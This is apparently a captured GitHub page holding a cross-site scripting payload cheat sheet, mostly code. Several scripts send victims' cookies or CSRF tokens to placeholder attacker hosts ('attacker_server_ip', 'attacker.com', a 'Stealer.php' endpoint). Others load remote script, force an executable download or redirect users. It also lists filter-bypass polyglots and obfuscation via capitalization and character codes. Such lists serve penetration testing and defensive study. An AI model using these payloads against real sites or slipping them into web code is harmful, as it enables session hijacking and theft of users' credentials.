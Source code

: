 **JavaScript Code to Capture Cookies**
- The following JavaScript code captures and sends the user's cookies to an attacker's server:

```javascript
<script>
  image = new Image();
  image.src='http://attacker_server_ip/?c='+document.cookie;
</script>
```

**Image Tag with Alert**
- An `img` tag that triggers an alert when the image is loaded:

```html
<img onload=alert('The image has been loaded!') src="example.png">
```

**JavaScript XSS in Syncs**
- JavaScript XSS payload that triggers an alert:

```javascript
javascript:alert('XSS by you')
```

**Data Field Encoded Payload**
- A data field encoded payload that triggers an alert when accessed via a URL:

```html
data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTIGJ5IFZpY2tpZScpPC9zY3JpcHQ+"
```

- Triggered by:
  ```
  https://example.com/upload_profile_pic?url=IMAGE_URL
  ```

**Location Change Script**
- A script that changes the user's location to an attacker's website:

```html
/><script>location="http://attacker.com";</script>
```

**Additional XSS Payloads**
- Various XSS payloads:

```html
<script>alert(1)</script>
<iframe src=javascript:alert(1)>
<body onload=alert(1)>
"><img src=x onerror=prompt(1);>
<script>alert(1)<!– <!-
<a onmouseover"alert(1)">test</a>
<script src=//attacker.com/test.js>
```

**XSS Bypasses**
- Examples of XSS polyglots:

```javascript
javascript:"/*\"/*`/*' /*</template>
</textarea></noembed></noscript></title>
</style></script-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```

- Use the following link to access XSS polyglots:
  [Polyglot Examples](https://web.archive.org/web/20190617111911/https://polyglot.innerht.ml/)

**HREF Tag XSS**
- An example of an XSS payload using an `<a>` tag:

```html
<a href="javascript:alert('XSS by Vickie')">Click me!</a>
```

**Capitalization in XSS**
- An example of using capitalization to obfuscate an XSS payload:

```html
<scrIPT>location='http://attacker_server_ip/c='+document.cookie;</scrIPT>
```

- Alternatively, you can use the JavaScript `String.fromCharCode()` function to create the string you need:

```html
<scrIPT>location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
```

**Stealing CSRF Tokens**
- A script to steal CSRF tokens by using an XMLHttpRequest:

```javascript
var token = document.getElementsById('csrf-token')[0];
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://attacker_server_ip/?token="+token, true);
xhr.send(null);
```

**Cookie Stealing XSS**
- A script to steal cookies and send them to an attacker's server:

```html
<script>
  document.write('<img src="http://<Your IP>/Stealer.php?cookie=' + document.cookie + '" >');
</script>
```

**Forcing File Download**
- A script to force the download of a file:

```html
<script>
  var link = document.createElement('a');
  link.href = 'http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe';
  link.download = '';
  document.body.appendChild(link);
  link.click();
</script>
```

**User Redirect Script**
- A script to redirect the user to a specific URL:

```html
<script>
  window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ";
</script>
```

**Escalating XSS**
- A link to a resource discussing how to escalate XSS attacks:
  [XSS Escalation Resource](https://branch-delivery-7d5.notion.site/xss-dd37aad820b14535a3b3b418345d9d1f)

